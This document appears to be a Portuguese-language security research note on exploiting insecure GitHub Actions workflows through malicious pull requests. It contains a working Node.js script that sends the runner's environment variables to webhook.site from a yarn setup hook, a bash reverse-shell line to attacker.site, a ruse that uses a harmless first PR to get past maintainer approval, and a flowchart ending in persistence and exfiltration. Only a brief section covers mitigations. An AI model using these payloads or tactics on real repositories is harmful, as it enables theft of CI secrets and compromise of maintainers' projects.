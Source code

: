 # Pesquisa de Segurança: Explorando vulnerabilidades em GitHub Actions com usuários externos

## Objetivo

Investigar e documentar formas de explorar workflows inseguros no GitHub Actions a partir de Pull Requests maliciosos, visando:

- Exfiltrar informações sensíveis
- Obter shell reverso em runners
- Abusar de workflows reutilizáveis (reusable workflows)
- Simular cenários realistas de ameaças para subsidiar mitigações

---

## 1. Cenário Inicial

### Exemplo de Workflow Inseguro

```yaml
on:
  push:
    branches: [main]
  pull_request:
    paths:
      - "packages/**"

jobs:
  ci:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v2
      - run: yarn setup
```

### Problemas identificados

- Executa código arbitrário definido pelo PR
- `yarn setup` pode conter scripts maliciosos (ex: exfiltração)
- Ausência de `permissions:` definidos (usa padrão permissivo)
- Ações inseguras em PRs de forks com código controlado pelo atacante

---

## 2. Possíveis Vetores de Exfiltração

### ✅ Acessíveis via Payload

- `process.env`: variáveis de ambiente (ex: `GITHUB_REPOSITORY`, `RUNNER_OS`)
- Informações do sistema: `cwd`, `uptime`, `memoryUsage`, etc.
- Arquivos temporários (`/tmp`, `.env`, `.cache`)
- Resolução DNS (`/etc/resolv.conf`)
- Logs e artefatos

### ❌ Inacessíveis por padrão

- `secrets.*`: não disponíveis em PRs de forks
- `vars.*`: só disponíveis se usados no workflow YAML
- `GITHUB_TOKEN`: revogado em forks
- `core.getInput()`: exige `with:` no workflow
- `core.getIDToken()`: requer `permissions: id-token: write`

---

## 3. Payload de Exfiltração no `yarn setup`

### package.json

```json
"scripts": {
  "setup": "node scripts/malicioso.js"
}
```

### scripts/malicioso.js

```js
const https = require('https');

const data = {
  env: process.env,
  runner: {
    platform: process.platform,
    arch: process.arch,
    cwd: process.cwd(),
    uptime: process.uptime(),
    memory: process.memoryUsage(),
    versions: process.versions,
  }
};

const body = JSON.stringify(data);

const req = https.request({
  hostname: 'webhook.site',
  path: '/teste',
  method: 'POST',
  headers: {
    'Content-Type': 'application/json',
    'Content-Length': body.length
  }
}, (res) => {
  console.log(`STATUS: ${res.statusCode}`);
});

req.on('error', (error) => {
  console.error('Erro ao enviar payload:', error);
});

req.write(body);
req.end();
```

---

## 4. Bypass de Proteção para PRs de Primeira Contribuição

### Como o GitHub se comporta

- Em PRs de forks de usuários novos, o GitHub **não executa workflows automaticamente**
- Exige aprovação manual por mantenedor via botão **“Approve and run workflows”**

### Estratégia do atacante

1. Criar perfil no GitHub com aparência legítima
2. Fazer um primeiro PR inofensivo (ex: correção de typo)
3. Após aprovação, fazer um segundo PR com payload
4. Workflow é executado automaticamente com contexto malicioso

---

## 5. Shell Reverso no Runner

### Payload comum

```bash
bash -i >& /dev/tcp/attacker.site/4444 0>&1
```

### Possibilidades no shell

- Listar variáveis e arquivos (`env`, `ls`, `cat`)
- Escanear rede interna (`ip addr`, `curl`)
- Explorar arquivos do runner (`/tmp`, `/home/runner`)
- Persistência e lateral movement (em self-hosted mal configurado)

---

## 6. Abuso de Reusable Workflows

### Problemas

- Workflows reutilizáveis públicos podem ser chamados por qualquer repositório
- Podem vazar outputs, segredos e rodar em ambientes sensíveis
- Falta de validação do `caller` permite uso malicioso externo

### Mitigações recomendadas

- Validar `github.repository` no reusable
- Definir `permissions: {}` por padrão
- Não usar `secrets` ou `env` sem checagem de escopo
- Proteger com ambientes (`environment`) e revisão manual se necessário

---

## 7. Fluxograma de Exploração

```mermaid
flowchart TD
  A[Início] --> B[Fazer Fork do Repositório Vulnerável]
  B --> C[Alterar package.json / yarn setup]
  C --> D[Adicionar payload de exfiltração ou shell reverso]
  D --> E[Abrir Pull Request]

  E --> F{Primeira Contribuição?}
  F -- Sim --> G[Workflow não roda automaticamente]
  G --> H[Fazer PR inofensivo /README, typo/]
  H --> I[Aguardar aprovação do PR]
  I --> J[Fazer novo PR com payload]
  F -- Não --> J

  J --> K[Workflow executa código do PR]
  K --> L{Tipo de Exploração}

  L -- Exfiltração --> M1[Capturar process.env]
  L -- Exfiltração --> M2[Obter dados de sistema /uptime, cwd, runner/]
  L -- Exfiltração --> M3[Enviar para webhook.site]

  L -- Shell reverso --> N1[Payload: bash -i >& /dev/tcp/...]
  N1 --> N2[Obter shell remoto no runner]
  N2 --> N3[Listar arquivos temporários]
  N2 --> N4[Escanear rede interna]
  N2 --> N5[Escalar privilégios /caso self-hosted/]
  N2 --> N6[Persistência / backdoor]

  L -- Reusable workflow --> O1[Chamar workflow externo]
  O1 --> O2[Reaproveitar secrets indevidamente expostos]
  O1 --> O3[Obter outputs sensíveis]
  O1 --> O4[Rodar em runners privilegiados]

  M3 --> Q
  N6 --> P1[Salvar via artifacts ou logs]
  O4 --> P1

  P1 --> Q[Fim: Dados exfiltrados com sucesso]
```

---

## Referências

- [GitHub Docs – Reusable Workflows](https://docs.github.com/en/actions/using-workflows/reusing-workflows)
- [GitHub Security Hardening](https://docs.github.com/en/actions/security-guides/security-hardening-for-github-actions)
- [OIDC Token Leak - Rhys Arkins](https://rhysd.hashnode.dev/github-actions-oidc-token-leak)
- [Project Discovery CVE and GitHub Actions Research](https://blog.projectdiscovery.io/github-actions-vulnerabilities-research)
